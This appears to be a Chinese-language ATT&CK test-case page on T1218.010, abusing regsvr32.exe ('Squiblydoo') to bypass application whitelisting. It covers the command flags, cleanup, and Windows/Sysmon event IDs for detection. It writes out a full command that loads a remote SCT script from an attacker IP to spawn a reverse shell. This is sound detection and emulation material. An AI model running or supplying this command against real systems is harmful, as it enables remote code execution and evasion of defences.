 # T1218.010-Win-使用Regsvr32.exe执行Payload（白名单）

## 描述

攻击者可能利用**regsvr32.exe**代理执行恶意代码，规避安全工具的检测（MITRE ATT&CK T1218.010）。`regsvr32.exe`是Windows内置工具，用于注册和注销COM对象（如DLL），由微软签名，常被白名单或误报。攻击者可通过`regsvr32.exe`加载恶意DLL或脚本（如SCT文件），实现防御规避、初始访问或持久化。

一种常见技术是“Squiblydoo”攻击，利用`regsvr32.exe`的网络功能，通过`/i:<URL>`参数加载远程脚本（如`http://<IP>/malicious.sct`），执行COM脚本小程序（如`scrobj.dll`）而不修改注册表。此方法常用于绕过应用程序白名单，隐蔽性较高。此外，攻击者还可能通过注册恶意COM对象实现持久化（COM劫持）。

## 测试案例

### 测试1：使用Regsvr32.exe执行远程SCT Payload（Squiblydoo）

攻击者通过`regsvr32.exe`加载远程SCT文件，触发反向Shell。

**环境要求**：
- 攻击机：Kali Linux（或其他Metasploit支持的系统）
- 靶机：Windows 7（支持Windows XP及以上）
- 工具：Metasploit（生成Payload）、`regsvr32.exe`（系统自带）
- 权限：普通用户
- 路径：
  - `C:\Windows\System32\regsvr32.exe`
  - `C:\Windows\SysWOW64\regsvr32.exe`

**攻击命令**（靶机）：
```cmd
regsvr32.exe /s /n /u /i:http://192.168.126.146:8080/malicious.sct scrobj.dll
```

**说明**：
- `/s`：静默模式，抑制提示窗口。
- `/n`：不调用`DllRegisterServer`，避免注册COM对象。
- `/u`：注销模式（在此场景下无实际作用，但常用于混淆）。
- `/i:<URL>`：指定远程SCT文件，加载并执行。
- `scrobj.dll`：COM脚本对象库，处理SCT脚本。

**清理命令**：
```cmd
taskkill /IM regsvr32.exe /F
taskkill /IM wscript.exe /F
```

## 检测日志

- **Windows安全日志**：
  - Event ID 4688：进程创建，记录`regsvr32.exe`及其子进程（如`wscript.exe`）的执行（需启用进程跟踪审核）。
  - Event ID 5156：Windows过滤平台（WFP）连接，记录`regsvr32.exe`的出站HTTP连接。
- **Sysmon日志**：
  - Event ID 1：进程创建，捕获`regsvr32.exe`的命令行及父进程信息。
  - Event ID 3：网络连接，记录`regsvr32.exe`的HTTP请求。
  - Event ID 7：镜像加载，记录`scrobj.dll`的加载。
